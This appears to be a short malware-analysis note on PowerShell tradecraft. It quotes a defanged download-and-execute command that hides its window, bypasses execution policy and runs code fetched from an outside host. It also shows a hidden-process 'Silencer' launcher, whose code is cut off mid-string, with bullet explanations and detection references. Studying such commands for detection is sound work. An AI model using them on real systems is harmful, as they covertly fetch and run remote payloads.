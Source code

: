 ```
 PowersheLl -windowstyle hidden -noexit -executionpolicy bypass -command IEX(New-Object Net.Webclient)DownloadString.Invoke(‘hxxp://ravigel[dot]com/1cr[dot]dat’)
```





## powershell Silencer
```
$s = New-Object System.Diagnostics.ProcessStartInfo;
$s.FileName = <FileName>;
$s.Arguments='-noni -nop -w hidden -c

$s.UseShellExecute=$false;
$s.RedirectStandardOutput=$true;
$s.WindowStyle='Hidden';
$s.CreateNoWindow=$true;
[System.Diagnostics.Process]::Start($s)
```
 - ```$s = New-Object System.Diagnostics.ProcessStartInfo``` creates PowerShell variable $s (defined as a new object, the object created is a new process) 
 - no profile 
 - ```-w hidden``` hidden window
 - ```$s.RedirectStandardOutput=$true;``` don’t keep track of standard output
 - ```$s.WindowStyle='Hidden';``` hide the window, 
 - ```$s.CreateNoWindow=$true;``` don’t create the window or invoke a new shell. 
 



# References:
- https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_operators?view=powershell-7.2
- https://www.youtube.com/watch?v=P1lkflnWb0I
- https://www.leeholmes.com/more-detecting-obfuscated-powershell/
- https://www.huntress.com/blog/from-powershell-to-payload-an-analysis-of-weaponized-malware
- https://ss64.com/ps/

